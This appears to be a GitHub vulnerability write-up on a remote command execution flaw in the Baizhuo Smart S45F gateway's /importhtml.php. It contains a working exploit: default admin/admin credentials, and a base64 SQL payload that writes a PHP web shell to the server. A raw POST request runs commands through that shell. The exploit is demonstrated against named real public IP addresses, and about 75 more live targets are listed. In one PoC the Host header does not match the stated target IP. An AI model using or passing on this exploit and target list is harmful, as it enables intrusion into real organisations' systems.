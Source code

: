 There is a Command Execution Vulnerability in the Intelligent Management Platform of Baizhuo Network Smart S45F Multi Service Security Gateway


**1、 Vulnerability Description**
Beijing Baizhuo Network Technology Co., Ltd. (hereinafter referred to as Baizhuo Network) is a high-tech enterprise dedicated to building the next generation of secure internet.
The Baizhuo Network Smart S45F Multi Service Security Gateway Intelligent Management Platform has a command execution vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.


**2、 Vulnerability Impact**

Smart S45F

**3、 Location of vulnerabilities**

/importhtml.php

**4、 Recurrence of vulnerabilities**

**Recurrence One**

Ip：https://103.121.164.62:8443/

See The login page

![图片](https://github.com/TianDao888/RCEs/assets/131896134/97c4d8d4-4f07-4e8b-8b22-63d87544110e)

user password：admin/admin

Construct a URL, download successfully, construct a POC, and execute the command successfully
https://103.121.164.62:8443/importhtml.php?type=exporthtmlmail&tab=tb_RCtrlLog&sql=c2VsZWN0IDB4M2MzZjcwNjg3MDIwNjU2MzY4NmYyMDczNzk3Mzc0NjU2ZDI4MjQ1ZjUwNGY1MzU0NWIyMjYzNmQ2NDIyNWQyOTNiM2YzZSBpbnRvIG91dGZpbGUgJy91c3IvaGRkb2NzL25zZy9hcHAvc3lzMS5waHAn


**Construct poc:**
```php
POST /app/sys1.php HTTP/1.1
Host: 60.22.74.195:8443
Cookie: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

cmd=id
```
![图片](https://github.com/TianDao888/RCEs/assets/131896134/2b7c506b-8de5-4685-a2ab-3515cdf38d09)


**Recurrence Two**

Ip：https://222.179.98.22:8443/

See The login page

![图片](https://github.com/TianDao888/RCEs/assets/131896134/0928080d-3414-4245-9e1b-96c729338755)

Construct a URL, download successfully, construct a POC, and execute the command successfully
https://222.179.98.22:8443/importhtml.php?type=exporthtmlmail&tab=tb_RCtrlLog&sql=c2VsZWN0IDB4M2MzZjcwNjg3MDIwNjU2MzY4NmYyMDczNzk3Mzc0NjU2ZDI4MjQ1ZjUwNGY1MzU0NWIyMjYzNmQ2NDIyNWQyOTNiM2YzZSBpbnRvIG91dGZpbGUgJy91c3IvaGRkb2NzL25zZy9hcHAvc3lzMS5waHAn

**Construct poc:**

```php
POST /app/sys1.php HTTP/1.1
Host: 60.22.74.195:8443
Cookie: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

cmd=id
```

![图片](https://github.com/TianDao888/RCEs/assets/131896134/52887a30-72ce-44e9-9f17-5c3ddf5d5cf6)



**Other IP Address**
https://202.106.56.254:8443
https://49.65.226.114:8443
https://114.221.221.158:8443
https://218.104.188.235:8443
https://117.89.159.189:8443
https://218.6.77.226:8443
https://218.70.169.122:8443
https://175.162.101.25:8443
https://222.94.19.62:8443
https://218.93.66.83:8443
https://61.148.37.6:8443
https://222.94.19.145:8443
https://120.193.195.68:8443
https://175.162.99.55:8443
https://113.227.177.79:8443
https://117.88.133.59:8443
https://117.88.183.171:8443
https://218.75.81.138:8443
https://218.18.36.116:8443
https://180.111.82.207:8443
https://117.88.182.120:8443
https://117.89.121.168:8443
https://117.88.187.194:8443
https://222.179.98.22:8443
https://121.225.140.24:8443
https://117.63.49.36:8443
https://103.121.164.62:8443
https://114.221.220.106:8443
https://117.89.91.231:8443
https://124.200.184.166:8443
https://175.162.102.7:8443
https://222.183.234.68:8443
https://122.235.243.216:8443
https://211.167.86.3:8443
https://183.69.13.10:8443
https://117.89.158.107:8443
https://117.88.133.116:8443
https://114.221.221.108:8443
https://112.2.38.197:8443
https://112.91.244.116:8443
https://218.93.66.161:8443
https://114.221.223.78:8443
https://113.227.187.163:8443
https://121.225.137.182:8443
https://61.186.240.22:8443
https://221.226.160.131:8443
https://117.89.120.171:8443
https://218.93.66.153:8443
https://117.88.184.242:8443
https://117.88.180.56:8443
https://116.18.42.246:8443
https://122.225.12.206:8443
https://58.211.143.2:8443
https://61.164.139.254:8443
https://183.66.235.10:8443
https://125.85.166.55:8443
https://117.88.182.202:8443
https://114.221.1.206:8443
https://121.225.136.177:8443
https://49.77.25.199:8443
https://49.77.24.156:8443
https://221.7.96.86:8443
https://113.227.178.250:8443
https://49.77.25.16:8443
https://110.80.24.50:8443
https://222.94.19.209:8443
https://49.65.226.92:8443
https://222.183.233.135:8443
https://114.228.66.177:8443
https://114.222.218.35:8443
https://106.120.128.18:8443
https://27.154.56.10:8443
https://222.179.221.118:8443
https://14.215.219.154:8443
https://221.226.161.207:8443
https://117.89.120.42:8443
